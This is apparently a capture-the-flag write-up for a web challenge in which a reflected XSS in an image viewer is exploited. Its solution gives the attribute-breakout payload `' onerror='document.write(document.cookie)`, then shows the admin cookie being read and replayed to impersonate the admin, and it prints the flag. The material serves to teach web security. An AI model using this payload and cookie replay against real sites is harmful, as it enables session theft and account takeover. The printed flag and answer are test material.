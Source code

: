 # Cookie Monster
Display use of XSS to steal cookies

<i>Creator - @Platy</i>

## Category
Web

## Question
>Cookie monster has stolen my cookies again! And apparently, he learnt how to create a website to get more cookies! He is accepting nice images from users and running it on his image viewer using what he thinks is the best browser, Internet Explorer. Retrieve the cookie he has that he stole from me! Thanks!
>
>Connect via `http://<ip address>:17452` and `nc <ip address> 17453`

### Hint
None.

## Distribution
None.

## Setup Guide
Run `bash build.sh`

## Solution
Upon going on to the website, we can see a nice image viewer. Whatever you placed in the input field, the image will get displayed.

We can try to do some simple XSS by doing `<script>alert(1);</script>` but nothing interesting happens.

Doing `Ctrl-U`, we can see
```html
<h1>HeRe Is YoUr ImAgE!</h1>
<img src='&lt;script&gt;alert(1);&lt;/script&gt;' width="500">
<p><h2>Thank you for using image viewer</h2></p>
<p>Image source : &lt;script&gt;alert(1);&lt;/script&gt;</p>
```

The tags get filtered out. But what's this? The img source uses single quotes instead of double. Perhaps single quotes are not filtered out by `htmlentities()` as it is not the default option

Typing in a single quote and we get this
```html
<img src=''' width="500">
```
Success! Now we know that single quotes are not sanitised. Since this is `<img src>`, we can do `onerror` to run javascript if the image fails to load.

By doing that, we can do `document.write()` with `document.cookie` to view Cookie Monster's cookies.

Upon entering  `' onerror='document.write(document.cookie)`, we get
```html
<html>
  <head></head>
  <body>passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk</body>
</html>
```
Now we can go into the console of chrome and type `document.cookie="passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk"`

We can now enter and pretend to be cookie monster to get the flag.

### Flag
`GCTF{c_15_f0r_c00k13_4nd_c00k13_15_f0r_m3}`

## Credits
None.

## Recommended Reads
- https://youtu.be/8GwVBpTgR2c?t=4m44s
